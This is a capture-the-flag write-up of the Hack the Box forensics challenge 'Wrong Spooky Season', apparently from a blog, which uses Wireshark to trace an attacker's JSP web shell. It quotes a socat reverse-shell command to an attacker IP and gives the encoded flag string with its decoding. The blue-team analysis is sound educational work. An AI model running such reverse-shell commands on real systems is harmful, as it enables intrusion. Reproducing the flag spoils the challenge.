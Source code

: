 ```yaml
---
title: "HTB • Wrong Spooky Season"
tags:
  - "Forensics"
  - "Very Easy Difficulty"
  - "Blue Team"
  - "Packet Capture"
  - "Beginner"
excerpt: "Wrong Spooky Season is a forensics challenge released on Hack the Box that is marked as very easy and involves blue team operations and analyzing a packet capture to pinpoint malicious traffic"
categories:
  - "Writeups"
  - "Hack the Box Challenges"
---
```


Wrong Spooky Season is a forensics challenge released by [**c4n0pus**](https://app.hackthebox.com/users/527470) on [**Hack the Box**](https://app.hackthebox.com/challenges/wrong-spooky-season) that is marked as very easy and involves analyzing a packet capture to pinpoint malicious traffic.

> "I told them it was too soon and in the wrong season to deploy such a website, but they assured me that theming it properly would be enough to stop the ghosts from haunting us. I was wrong." Now there is an internal breach in the \`Spooky Network\` and you need to find out what happened. Analyze the the network traffic and find how the scary ghosts got in and what they did.

## Packet Capture Analysis

We'll be using [Wireshark](https://www.wireshark.org/) to analyze the packets in the packet capture file.

### HTTP Traffic

The first thing we notice when opening the capture is that there is some plaintext HTTP traffic. 

![Traffic overview](/assets/img/post/htb-challenges-wrong-spooky-season/wireshark.png)
_The first impression of the captured traffic_

We'll use the filter `http` to display only HTTP packets. Looking at the HTTP traffic, it seems that client **192.168.1.180** has uploaded a JSP web shell, and is running commands through GET requests.

![HTTP traffic](/assets/img/post/htb-challenges-wrong-spooky-season/wireshark-2.png)
_Malicious HTTP Command & Control_

The attacker can be seen installing the `socat` utility, then running it like so:

>
```bash
socat TCP:192.168.1.180:1337 EXEC:bash
```
{:.nolineno}

This command is meant to establish a TCP reverse shell on port **1337**.

### Reverse Shell

We'll use the filter `tcp.port==1337` then follow the TCP stream of the packets to view the reverse shell session.

![TCP stream](/assets/img/post/htb-challenges-wrong-spooky-season/tcp-stream.png)

The last command sent by the attacker contains a statement that does pretty much nothing.

>
```bash
echo "==gC9FSI5tGMwA3cfRjd0o2Xz0GNjNjYfR3c1p2Xn5WMyBXNfRjd0o2eCRFS" | rev > /dev/null
```
{:.nolineno}

The suspicious string can be reversed and base64-decoded to get the flag.

```bash
echo "==gC9FSI5tGMwA3cfRjd0o2Xz0GNjNjYfR3c1p2Xn5WMyBXNfRjd0o2eCRFS" | rev | base64 -d
```
{:.nolineno}
